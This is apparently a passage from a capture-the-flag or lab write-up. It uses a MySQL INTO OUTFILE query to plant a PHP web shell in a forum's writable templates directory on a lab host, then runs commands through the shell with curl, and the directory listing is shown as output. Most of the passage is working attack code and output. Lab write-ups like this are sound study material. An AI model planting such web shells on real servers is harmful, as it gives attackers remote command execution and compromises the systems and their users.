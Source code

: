 We can inject shell commands from an SQL query but we can write in local files. So we will create a php page backdoor for execute some commands in the server. With this query

```sql
SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/dir/backdoor.php'
```

This is doesn't work on the `/var/www/phpmyadmin` and `/var/www/webmail` (permission denied) and after tried all the directories on the forum, it worked only on the `/var/www/forum/templates_c` directory. The final query is :

```sql
SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

Now, try our backdoor with the get request `https://192.168.1.22/forum/templates_c/backdoor.php?cmd=ls%20-la`. `%20` is for replacing the space character in the url encoding format

```sh
$> curl --insecure 'https://192.168.1.22/forum/templates_c/backdoor.php?cmd=ls%20-la'
1	total 451
drwxrwxrwx 1 www-data www-data     60 Sep  4 14:23 .
drwxr-xr-x 1 www-data www-data     60 Oct  8  2015 ..
-rwxr-xr-x 1 www-data www-data      1 Oct  8  2015 .dummy
-rwxr-xr-x 1 www-data www-data 211754 Oct  8  2015 11c603a9070a9e1cbb42569c40699569e0a53f12.file.admin.inc.tpl.php
-rwxr-xr-x 1 www-data www-data   3576 Oct  8  2015 2bd398249eb3f005dbae14690a7dd67b920a4385.file.login.inc.tpl.php
-rwxr-xr-x 1 www-data www-data  23519 Oct  8  2015 40bf370f621e4a21516f806a52da816d70d613db.file.user.inc.tpl.php
-rwxr-xr-x 1 www-data www-data   1357 Oct  8  2015 427dca884025438fd528481570ed37a00b14939c.file.ajax_preview.tpl.php
-rwxr-xr-x 1 www-data www-data  30987 Oct  8  2015 560a32decccbae1a5f4aeb1b9de5bef4b3f2a9e5.file.posting.inc.tpl.php
-rwxr-xr-x 1 www-data www-data  13181 Oct  8  2015 5cfe6060cd61c240ab9571e3dbb89827c6893eea.file.main.tpl.php
-rwxr-xr-x 1 www-data www-data  18923 Oct  8  2015 749c74399509c1017fd789614be8fc686bbfc981.file.user_edit.inc.tpl.php
-rwxr-xr-x 1 www-data www-data  64906 Oct  8  2015 8e2360743d8fd2dec4d073e8a0541dbe322a9482.english.lang.config.php
-rwxr-xr-x 1 www-data www-data  12086 Oct  8  2015 ad5c544b74f3fd21e6cf286e36ee1b2d24a746b9.file.user_profile.inc.tpl.php
-rwxr-xr-x 1 www-data www-data   6343 Oct  8  2015 b2b306105b3842dc920a1d11c8bb367b28290c2a.file.subnavigation_1.inc.tpl.php
-rw-rw-rw- 1 mysql    mysql        41 Sep  4 14:23 backdoor.php
-rwxr-xr-x 1 www-data www-data  23284 Oct  8  2015 d0af1f95d9c68edf1f8805f6009e021a113a569a.file.entry.inc.tpl.php
-rwxr-xr-x 1 www-data www-data   6167 Oct  8  2015 e9c93976b632dda2b9bf7d2a686f72654e73a241.file.user_edit_email.inc.tpl.php
-rwxr-xr-x 1 www-data www-data  28820 Oct  8  2015 f13dc3b8bcb4f22c2bd24171219c43f5555f95c0.file.index.inc.tpl.php
-rwxr-xr-x 1 www-data www-data   9263 Oct  8  2015 f75851d3a324a67471c104f30409f32a790c330e.file.subnavigation_2.inc.tpl.php
```
